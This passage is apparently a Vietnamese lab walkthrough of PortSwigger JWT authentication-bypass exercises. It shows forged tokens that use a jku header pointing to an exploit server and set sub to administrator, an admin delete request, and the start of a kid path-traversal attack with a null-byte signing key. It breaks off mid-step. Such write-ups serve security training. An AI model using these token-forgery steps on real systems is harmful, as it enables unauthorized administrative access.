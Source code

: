 ```json
{
    "jku": "https://exploit-0a95000e039a6e9081bbec87017d0091.exploit-server.net/xnxx.json",
    "kid": "985f339f-1230-4c71-b2ce-edcf5284bc09",
    "alg": "RS256"
}
```
- Đổi giá trị của `sub` thành `administrator`

```json
{
    "iss": "portswigger",
    "exp": 1750318507,
    "sub": "administrator"
}
```
- Click **Sign** > chọn **key** vừa tạo để ký lại 
- Gửi **request** đến `/admin` và quan sát **response** ta thấy **path** để xóa user `carlos`

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a5d00030422b0d280d4d0b500a60082.web-security-academy.net
```
- Ngoài ra có thể thay đổi **cookie** trên trình duyệt để xóa
    - Copy nội dung **cookie** ở phần **Serialized JWT**
    - Mở **Devtool** của trình duyệt > **Application** > **Cookie**, thay đổi giá trị **cookie** của trang web hiện tại bằng nội dung đã copy
    - Có thể sử dụng **Cookie Editor Extension** để sửa

#### Explain
- Cốt lõi của việc này là **Server fetch jku**, lấy **JWK Set** từ **exploit server**.
- Thấy `kid` khớp => lấy **public key** đã **upload**.
- Xác thực chữ ký: hợp lệ (vì đã tự ký bằng **private key**).
- Xác thực thành công nên trở thành **admin**
- **JWK** phải đặt trong **keys** bởi vì đó là chuẩn, dựa vào `kid` để xác định **key**

### Lab: JWT authentication bypass via kid header path traversal
#### Exploit
- Login bằng account `wiener`
- Gửi request đến đến **Repeater**
- Thử truy cập `/admin` => từ chối

```http
GET /admin HTTP/2
Host: 0a5d00030422b0d280d4d
```
- Tạo **Symmetric key**:
    - **JWT Editor** > **New Symmetric Key** > **Random secret** > **Genarate**
    - Sửa `"k"` thành `"AA=="` **(null byte)** vì **Burp** không cho dùng **secret** là chuỗi rỗng `""`, nên dùng **null byte** `\x00` thay thế.
    - **OK**

```json
{
    "kty": "oct",
    "kid": "ce8f3439-30d8-4c15-b5d6-63f15650d0d4",
    "k": "AA=="
}
```
- Sửa **JWT** và ký lại
    - Quay lại request `/admin` trong **Repeater**
    - Chuyển sang tab **JSON Web Token**
    - Trong **JWT header**
